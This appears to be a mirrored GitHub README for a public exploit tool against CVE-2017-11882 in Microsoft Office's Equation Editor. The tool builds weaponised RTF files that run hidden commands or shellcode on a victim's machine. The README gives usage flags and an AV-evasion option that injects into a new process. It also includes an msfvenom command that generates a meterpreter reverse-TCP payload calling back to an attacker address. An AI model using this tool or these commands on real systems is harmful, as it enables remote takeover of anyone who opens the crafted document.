 # CVE-2017-11882

CVE-2017-11882 Exploit accepts over 17k bytes long command/code in maximum.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/unamer](https://github.com/unamer) |
| Url      | [https://github.com/unamer/CVE-2017-11882](https://github.com/unamer/CVE-2017-11882)                                               |
| Stars    | 308                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2017-11882* exploit* rtf* shellcode

</details>

## Readme

# CVE-2017-11882 Exploit

CVE-2017-11882 Exploit accepts over 17k bytes long command/code in maximum.

For remote command execution,this exploit will call WinExec with SW_HIDE and call ExitProcess after WinExec returns.

For remote code execution,this exploit just jmp to code.

I cannot find a reference for the object structure...so I cannot change the file length for arbitrary length code execution..:(

But I do think 17k bytes is really enough. Python script will detect the payload size you need and choose the correct payload template.

**Caution: RCE will stuck winword process if you don't migrate to another process!**

Currently this exploit will inject your shellcode to new EQNEDT32.EXE process if you specify **-i** flag. **This operation is suspicious to AV but it won't stuck the word process.**

## Usage
```
usage: CVE-2017-11882.py [-h] -c CMD [-t {0,1}] [-i INJECT] -o OUTPUT

Exploit for CVE-2017-11882 @unamer(https://github.com/unamer/CVE-2017-11882)

optional arguments:
  -h, --help            show this help message and exit
  -c CMD, --cmd CMD     Command or shellcode file to run in target system
                        (Must be shorter than 17967 bytes!!)
  -t {0,1}, --type {0,1}
                        Type (0:shellcode 1:command, default=1)
  -i INJECT, --inject INJECT
                        Inject shellcode to new process
  -o OUTPUT, --output OUTPUT
                        Output exploit rtf
```

Example:

For remote command execution
```
CVE-2017-11882.py -c cmd.exe -o test.rtf
```

For remote code execution

1. Generate some shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=2333 -o ./sc.bin
```

2. Generate exploit
```
CVE-2017-11882.py -c sc.bin -t 0 -i 1 -o test.rtf
```
## Debug

 1. Set debugger value to your debugger path in HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\EQNEDT32.EXE

 2. Build an exploit and run it.
 
 3. Set break point at 0x41165f
 
 4. This break point will be hit twice, at second time the payload will be executed after this function returned.
 
 ## Reference
 
  1. https://github.com/embedi/CVE-2017-11882
  2. https://embedi.com/files/white-papers/skeleton-in-the-closet.pdf
  3. https://0patch.blogspot.co.id/2017/11/did-microsoft-just-manually-patch-their.html



## Get the content

```
git clone https://github.com/unamer/CVE-2017-11882
cd CVE-2017-11882
```

{% embed url="https://github.com/unamer/CVE-2017-11882" %}

<figure><img src="https://avatars.githubusercontent.com/u/12728984?v=4" alt=""><figcaption><p>unamer</p></figcaption></figure>
